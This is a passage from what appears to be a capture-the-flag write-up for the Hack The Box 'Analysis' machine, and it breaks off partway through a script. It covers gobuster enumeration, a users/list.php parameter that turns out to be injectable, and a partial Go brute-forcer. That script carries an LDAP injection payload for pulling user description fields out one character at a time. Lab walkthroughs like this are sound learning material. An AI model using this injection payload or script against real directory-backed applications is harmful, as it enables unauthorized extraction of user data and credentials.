 **LDAP INJECTION**&#x20;

After number of **gobuster** run, We can find

```
http://internal.analysis.htb/users/list.php
```

[Insecure Direct Object Reference Prevention Cheat Sheet](https://www.google.com/url?sa=t\&rct=j\&q=\&esrc=s\&cd=\&cad=rja\&uact=8\&ved=2ahUKEwiCueeJhfODAxWIg\_0HHcSCAPAQFnoECBgQAQ\&url=https%3A%2F%2Fcheatsheetseries.owasp.org%2Fcheatsheets%2FInsecure\_Direct\_Object\_Reference\_Prevention\_Cheat\_Sheet.html\&usg=AOvVaw1fA3l27LDYdiU6\_t7-VfJd\&opi=89978449)

The parameter and eventually come to `name`

```
http://internal.analysis.htb/users/list.php?name=1
```

```
http://internal.analysis.htb/users/list.php?name=*
```

<figure><img src=".gitbook/assets/image.png" alt=""><figcaption><p><a href="http://internal.analysis.htb/users/list.php?name=*">http://internal.analysis.htb/users/list.php?name=*</a></p></figcaption></figure>

Save the script below with **.go** extension

```
package main

import (
 "bufio"
 "fmt"
 "io/ioutil"
 "net/http"
 "os"
 "strings"
)

func main() {
 // Prompt user for wordlist input
 fmt.Print("Enter the wordlist or charset (press Enter to use the default): ")
 scanner := bufio.NewScanner(os.Stdin)
 scanner.Scan()
 charsetPath := strings.TrimSpace(scanner.Text())

 // Use default wordlist if user didn't provide one
 if charsetPath == "" {
  charsetPath = "/usr/share/seclists/Fuzzing/alphanum-case-extra.txt"
 }

 baseURL := "http://internal.analysis.htb/users/list.php?name=*)(%26(objectClass=user)(description={found_char}{FUZZ}*)"
 foundChars := ""

 file, err := os.Open(charsetPath)
 if err != nil {
  fmt.Println("Error opening charset file:", err)
  return
 }
 defer file.Close()

```